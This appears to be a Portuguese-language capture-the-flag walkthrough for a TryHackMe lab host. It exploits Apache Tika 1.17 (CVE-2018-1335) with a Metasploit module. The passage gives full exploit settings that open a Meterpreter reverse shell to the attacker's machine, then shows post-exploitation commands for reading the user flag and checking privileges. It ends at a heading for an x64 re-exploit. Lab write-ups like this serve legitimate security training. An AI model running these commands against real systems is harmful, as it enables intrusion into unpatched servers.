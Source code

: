 **Apache Tika 1.17** é vulnerável a **Command Injection** via parsers — **CVE-2018-1335**.
Módulo no Metasploit:

```bash
search apache tika 1.17
# exploit/windows/http/apache_tika_jp2_jscript
```

### Configuração do exploit

```bash
use exploit/windows/http/apache_tika_jp2_jscript
set RHOSTS 10.201.54.143
set RPORT 61777
set LHOST 10.201.65.120
set LPORT 1234
run
```

**Resultado esperado:**

```
[*] The target is vulnerable.
[*] Sending stage ...
[*] Meterpreter session 1 opened (10.201.65.120:1234 -> 10.201.54.143:49848)
```

### Pós-exploração inicial (user)

```bash
sessions -i 1
pwd
cd C:\Users\CyberLens\Desktop
ls
cat user.txt
# THM{*****}
```

### Checagem de arquitetura e privilégios

```bash
getuid
# CYBERLENS\CyberLens
sysinfo
# Windows Server 2019 (17763) - Meterpreter: x86/windows
getprivs
# SeChangeNotifyPrivilege, SeIncreaseWorkingSetPrivilege
```

👉 Estávamos em **x86** num host **x64**, o que limita módulos/estabilidade.
**Ajuste:** reexplorar com payload **x64** (ou migrar para processo x64).

---

# 🛠️ Reexploit x64 (recomendado)
